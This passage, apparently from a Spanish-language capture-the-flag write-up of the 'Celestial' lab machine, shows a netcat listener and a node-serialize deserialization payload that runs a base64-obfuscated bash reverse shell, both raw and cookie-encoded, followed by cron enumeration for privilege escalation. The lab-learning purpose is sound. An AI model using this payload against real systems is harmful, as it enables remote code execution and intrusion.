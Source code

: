 ```bash
nc -lvnp 1243
```

Se envía la función maliciosa insertada en el objeto **JSON**.

```bash
{"username":"Master Mind","country":"Pakistan","city":"Lametown","num":"_$$ND_FUNC$$_function(){ require('child_process').exec('echo IyEvYmluL2Jhc2gKCmJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTkyLzQ0NDQgMD4mMQo= | base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) }); }()"}%3d%3d
```

```bash
eyJ1c2VybmFtZSI6Ik1hc3RlciBNaW5kIiwiY291bnRyeSI6IlBha2lzdGFuIiwiY2l0eSI6IkxhbWV0b3duIiwibnVtIjoiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7IHJlcXVpcmUoJ2NoaWxkX3Byb2Nlc3MnKS5leGVjKCdlY2hvIEl5RXZZbWx1TDJKaGMyZ0tDbUpoYzJnZ0xXa2dQaVlnTDJSbGRpOTBZM0F2TVRBdU1UQXVNVFF1TVRreUx6UTBORFFnTUQ0bU1Rbz0gfCBiYXNlNjQgLWQgfCBiYXNoJywgZnVuY3Rpb24oZXJyb3IsIHN0ZG91dCwgc3RkZXJyKSB7IGNvbnNvbGUubG9nKHN0ZG91dCkgfSk7IH0oKSJ9%3d%3d
```

Finalmente se obtiene acceso a la máquina víctima.

<div style="text-align: center;">
		<img src="/assets/images/Celestial/shell.jpg" alt="Celestial" width="1000" oncontextmenu="return false;" />
</div>
<br>

--------------------------------------------------
# Escalada

Durante la enumeración de tareas programadas **(CRON)**, se encuentra un script ejecutado por el usuario **root**.

```bash
cat /var/logs/syslog | grep "CRON"
```

<div style="text-align: center;">
		<img src="/assets/images/Celestial/syslog.jpg" alt="Celestial" width="1000" oncontextmenu="return false;" />
</div>
<br>
